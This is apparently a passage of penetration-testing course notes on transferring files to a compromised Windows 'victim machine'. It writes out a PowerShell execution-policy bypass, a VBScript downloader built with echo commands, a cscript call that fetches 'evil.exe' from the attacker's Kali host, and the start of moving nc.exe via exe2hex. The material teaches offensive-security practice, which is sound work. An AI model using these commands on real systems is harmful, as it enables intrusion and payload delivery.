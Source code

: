 * Run this script with execution policy bypass.

`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoPro file -File wget.ps1`

_Downloads Using Scripting Languages_

We can leverage scripting engines such as VBScript397 (in Windows XP, 2003) and PowerShell (in Windows 7, 2008, and above) to download files to our victim machine.

Use these set of commands to make a vbs script that downloads.

```powershell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
echo Err.Clear >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET", strURL, False >> wget.vbs 
echo http.Send >> wget.vbs 
echo varByteArray = http.ResponseBody >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs 
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
echo strData = "" >> wget.vbs 
echo strBuffer = "" >> wget.vbs 
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
echo Next >> wget.vbs 
echo ts.Close >> wget.vbs
```

We can run this (with cscript) to download files from our Kali machine:

`C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe`

> Downloads with exe2hex and PowerShell

Starting on our Kali machine, we will compress the binary we want to transfer, convert it to a hex string, and embed it into a Windows script.

```bash
We’ll start by locating and inspecting the nc.exe file on Kali Linux.

kali@kali:~$ locate nc.exe | grep binaries 
/usr/share/windows-resources/binaries/nc.exe 

kali@kali:~$ cp /usr/share/windows-resources/binaries/nc.exe . 

kali@kali:~$ ls -lh nc.exe 
-rwxr-xr-x 1 kali kali 58K Sep 18 14:22 nc.exe
```
